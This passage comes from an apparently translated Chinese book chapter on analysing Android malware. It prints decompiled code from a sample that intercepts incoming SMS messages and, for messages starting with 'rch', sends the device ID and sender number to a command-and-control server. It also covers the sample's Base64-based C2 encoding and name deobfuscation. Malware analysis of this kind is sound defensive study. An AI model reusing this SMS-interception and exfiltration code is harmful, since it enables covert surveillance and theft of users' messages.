*列表 3-18：第一个广播接收器处理先前拦截的应用通知。*

第二个广播接收器（列表 3-19）处理传入的短信。它调用相同的`bhu8.vgy7`方法来存储和处理之前用来处理拦截通知的拦截消息。唯一的不同是，如果短信以*rch*开头，它还会向命令与控制服务器发送请求。

```
public void onReceive(Context context, Intent intent) {
  vgy7.vgy7.vgy7.vgy7.mko0.vgy7 vgy7Var;
  Object[] objArr = (Object[]) intent.getExtras().get(
    vgy7.vgy7.vgy7.vgy7.vgy7.c);
  if (objArr != null) {
    for (Object obj : objArr) {
      SmsMessage createFromPdu = SmsMessage.createFromPdu((byte[]) obj);
      String messageBody = createFromPdu.getMessageBody();
      if (messageBody != null && messageBody.startsWith("rch")) {
        new Thread(new vgy7(this, "http://" + vgy7.vgy7.vgy7.vgy7.vgy7.wsx2 +
          "/op/pair?remote=" + vgy7.vgy7.vgy7.vgy7.bhu8.bhu8 + "&device_id=" +
          messageBody.substring(3) + "&number=" + URLEncoder.encode(
            createFromPdu.getOriginatingAddress()))).start();
      }
      bhu8 bhu8Var = bhu8.zse4;
      if (!(bhu8Var == null || (vgy7Var = bhu8Var.mko0) == null)) {
        vgy7Var.mko0("sms_from:" + createFromPdu.getOriginatingAddress());
      }
      bhu8.vgy7(createFromPdu.getMessageBody());
    }
  }
}
```

*列表 3-19：第二个广播接收器拦截传入的短信进行处理。*

恶意软件为何寻找*rch*尚不清楚。一个可能性是，恶意软件作者通过发送这些消息与恶意软件进行通信，作为替代 HTTP 命令与控制服务器的方式。

##### 反分析技巧与隐藏代码

寻找典型的反分析技巧在第三阶段也有效。虽然没有原生代码或使用加密包*javax.crypto*，但我们可以找到一些有趣的*android.util.Base64*用法。在列表 3-20 中，你可以看到一个方法，它使用 Base64 编码一个字节数组，然后将编码后的字节数组传递给另一个函数。

```
public static byte[] vgy7(byte[] bArr) {
  return vgy7(Base64.encodeToString(bArr, 2), true).getBytes();
}
```

*列表 3-20：恶意软件使用 Base64 编码和自定义加密与服务器通信。*

正如你很快将看到的，这个其他函数`vgy7`负责加密和解密恶意软件与其命令与控制服务器的通信。

##### 字符串和 API 名称

除了与权限、短信和编码相关的功能外，我们还可以通过搜索字符串和方法名来揭示一些其他有趣的代码部分。搜索*HTTP*可以显示嵌入的 URL，以及来自*java.net*包的代码，这些代码用于连接到这些 URL。在本章稍后的部分，你将了解到，这些 URL 是用于与恶意软件的命令与控制服务器通信。

#### ***名称混淆***

现在我们已经找到了许多继续分析的方法，接下来我们需要使混淆代码更具可读性。逆向工程师工具箱中最重要的工具之一就是重命名变量、方法、类和其他名称的能力。恶意软件开发者喜欢用名称混淆技术来对抗恶意软件分析师，因此你经常需要逆转这些技术，以恢复原始代码。
